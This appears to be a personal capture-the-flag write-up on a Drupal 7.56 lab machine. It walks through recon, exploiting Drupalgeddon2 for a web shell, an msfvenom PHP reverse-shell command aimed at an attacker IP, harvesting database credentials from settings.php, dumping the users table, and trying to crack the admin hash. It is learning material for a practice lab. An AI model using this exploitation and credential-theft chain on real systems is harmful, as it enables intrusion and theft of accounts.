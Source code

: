 so we go ahead hit it with our nmap scans
these scans show apache versions, php versions all of which i used searchsploit to look for known vulns and didnt find much
Saw that it identified it was running drupal 7, and exploit is called drupalgeddon...haha hmmm i wonder if this will work

- Trying the exploit code for -> 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User), we get that it doesnt work
- Since we saw changelog in nmap as well as gobuster, lets go there to see the exact versions
- Changelog shows we are running Drupal 7.56

needed to gem install relevant modules for ruby

Ruinning https://www.exploit-db.com/exploits/44449 we get a web shell, go ahead and try to create a reverse shell

We've got some rce, it also looks like this script allows us to upload our own shell, lets try tty shell generated by msfvenom
`~/apps/metasploit-framework/msfvenom -p php/reverse_php LHOST=10.10.14.95 LPORT=6000 -f raw > shell.php`
``

Trying to find some passwords using `grep -rnw './' -e 'password'`
- found: ./modules/simpletest/tests/upgrade/upgrade.user.test:31:    $this->assertEqual('$S$DAK00p3Dkojkf4O/UizYxenguXnjv', $pass, 'Pre-existing non-MD5 password hash was not altered');
- seems like password was either "password" or "CQHEy@9M*m23gBVj" <- for one of them

Printing out the settings.php file gave us some interesting stuff
- $drupal_hash_salt = '4S4JNzmn8lq4rqErTvcFlV4irAJoNqUmYy_d24JEyns';
- ```
  $databases = array (
    'default' => 
    array (
      'default' => 
      array (
        'database' => 'drupal',
        'username' => 'drupaluser',
        'password' => 'CQHEy@9M*m23gBVj',
        'host' => 'localhost',
        'port' => '',
        'driver' => 'mysql',
        'prefix' => '',
      ),
    ),
  );
```

- goina try to use that one for ssh, nope didnt seem like that worked :\
- listing the users seems like the people we do have are:
`less /etc/passwd`
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash

- Tried that password with brucetherealadmin accnt as well didnt work
- Goina go ahead with the mysql server, connect using the built in cli
    - Should also try to do ssh tunneling!
- `mysql --user=drupaluser --password=CQHEy@9M*m23gBVj` doesnt give an error, but also doesnt give me a shell?? i dont think I have a full tty shell so maybe that's why it is acting up
- yup, looking more into it, that was the reason, the shell that i currently have is not able to keep track of the new spawned connection
- using -e will tell mysql to ouput the information
`mysql -e 'show databases' -user=drupaluser -password=CQHEy@9M*m23gBVj`
Database
information_schema
drupal
mysql
performance_schema
we see there is a users database and get this:
uid	name	pass	mail	theme	signature	signature_format	created	access	login	status	timezone	language	picture	init	data
0						NULL	0	0	0	0	NULL		0		NULL
1	brucetherealadmin	$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt	admin@armageddon.eu			filtered_html	1606998756	1607077194	16070762761	Europe/London		0	admin@armageddon.eu	a:1:{s:7:"overlay";i:1;}

Its the wierd user we saw earlier! it also has a password associated with it... we also know the salt to the password which we found in the settings page earlier
We will try to use JTR to crack the password
Went ahead and ran JTR while looking how to add that hash we found eariler, turns out I didnt even need it!
using rockyou.txt we get the password -> !!!jim!!!.a6_123
hmm well that password did not work...
seems like jtr might not suppoer this cipher, but somehow found a collision for the one it 'detected' -> got baited pretty hard


Note:
If an exploit doesnt work and its been verified on exploit-db, then should prob look at another avenue or exploit
Dont stay too long on something that isnt working, chances if it isnt working then it might not be the solution
Still need to truly understand tty, pty, dumb shells, bind shells, and everything in between
If something doesnt work -> MOVE ON